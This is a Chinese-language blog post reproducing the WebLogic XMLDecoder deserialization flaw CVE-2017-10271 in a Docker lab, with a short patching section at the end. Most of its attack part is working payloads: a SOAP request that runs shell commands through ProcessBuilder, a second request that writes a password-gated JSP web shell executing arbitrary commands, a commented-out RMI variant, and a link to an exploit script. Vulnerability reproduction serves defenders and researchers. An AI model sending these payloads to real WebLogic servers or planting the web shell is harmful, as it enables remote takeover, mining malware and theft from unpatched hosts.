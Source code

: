 ```yaml
---
title: Weblogic 0day 复现
date: 2017-12-22 15:43:02
tags: [vul,sec,weblogic,0day]
categories: Security
---
```

<script src="https://ob5vt1k7f.qnssl.com/pangu.js"></script>

最近不断听到消息，大量Weblogic主机被挂挖矿病毒，起初以为是利用之前反序列化漏洞(CVE-2017-3248)，但是团队内部从受害主机捕获的攻击代码来看，这次是针对WebLogic的WLS组件，利用xmldecoder反序列漏洞进行的RCE攻击。目前官方也给出了此次漏洞的cve[CVE-2017-10271](https://www.cvedetails.com/cve/CVE-2017-10271/)

下面我们来复现一下此次的漏洞
#### 0x01 环境准备
我们选择docker来快速搭建漏洞环境，此次漏洞受影响的版本是10.3.6.0.0, 12.1.3.0.0, 12.2.1.1.0 和 12.2.1.2.0，我们选择10.3.6来复现

在P神的[vulhub](https://github.com/vulhub/vulhub)项目中正好存在weblogic环境，看了下版本也在受影响范围之内，所以我们选择vulhub的[weblogic](https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf)镜像

克隆项目，进入weblogic目录，执行
```
docker-compose build
docker-compose up -d
```
此时会创建并运行两个容器，分别是`vulhub/weblogic`和`vulhub/weblogic`, 如下图

![containers](https://ob5vt1k7f.qnssl.com/gbF5V)

访问7001端口，weblogic已经成功运行

#### 0x02 PoC
```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
	<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
		<java version="1.8.0_131" class="java.beans.XMLDecoder">
		  <void class="java.lang.ProcessBuilder">
			<array class="java.lang.String" length="3">
			  <void index="0">
				<string>/bin/bash</string>
			  </void>
			  <void index="1">
				<string>-c</string>
			  </void>
			  <void index="2">
				<string>calc</string>
			  </void>
			</array>
		  <void method="start"/></void>
		</java>
	  </work:WorkContext>
	</soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```
向`/wls-wsat/CoordinatorPortType`发起一个POST请求，body部分为上面的内容，**修改`Content-Type`为`text/xml`**

目前了解的uri还有`CoordinatorPortType11`

服务器返回
```
<faultcode>S:Server</faultcode>
<faultstring>0</faultstring>
```
说明执行成功

![response](https://ob5vt1k7f.qnssl.com/yn2qT)
![reverse shell](https://ob5vt1k7f.qnssl.com/YOZ6L)

#### 0x03 Getshell
另外还有直接getshell的PoC:
```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java><java version="1.4.0" class="java.beans.XMLDecoder">
            <object class="java.io.PrintWriter">
                <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/a.jsp</string><void method="println">
                    <string><![CDATA[<%if("023".equals(request.getParameter("pwd"))){  
                        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();  
                        int a = -1;  
                        byte[] b = new byte[2048];  
                        out.print("<pre>");  
                        while((a=in.read(b))!=-1){  
                            out.println(new String(b));  
                        }  
                        out.print("</pre>");} %>]]></string></void><void method="close"/>
            </object>
        </java>
      </java>
    </work:WorkContext>
  </soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```
会在`tmp/_WL_internal`下`bea_wls9_async_response`、`bea_wls_internal`和`uddiexplorer`目录中的war包下创建a.jsp文件，具体路径可自己选择，对应的web路径是

`http://x.x.x.x:7001/bea_wls_internal/a.jsp`
	
<!--
导师还给出了rmi调用执行的方式，可惜我对rmi机制还没研究透彻，没有构造出来利用的流程，先把PoC放在这儿:
```
    <java version="1.8.0_131" class="java.beans.XMLDecoder">
    <void class="com.sun.rowset.JdbcRowSetImpl">
    <void property="dataSourceName">
    <string>rmi://localhost:1099/Exploit</string>
    </void>
    <void property="autoCommit">
    <boolean>true</boolean>
    </void>
    </void>
    </java>
```
-->

目前看到PoC的变换还有好几种，甚至出现了绕过官方补丁的版本，后续应该会逐渐放出的。

#### 0x04 修补方案
1.安装Oracle 10月份最新补丁

2.删除或重命名WebLogic目录中以下war包及目录
```
rm -f /home/WebLogic/Oracle/Middleware/wlserver_10.3/server/lib/wls-wsat.war
rm -f /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/wls-wsat.war
rm -rf /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat
```
访问`wls-wsat`响应404即可

#### 0x05 
附
Github上[3xp10it/exploit](https://github.com/3xp10it/exploit/blob/cbc8d61859b9c4c312bb52225671831b895fdbc3/exps/weblogic/weblogic.py)仓库删除的脚本
[Weblogic.py](https://ob5vt1k7f.qnssl.com/weblogic.py)

<script>pangu.spacingPage();</script>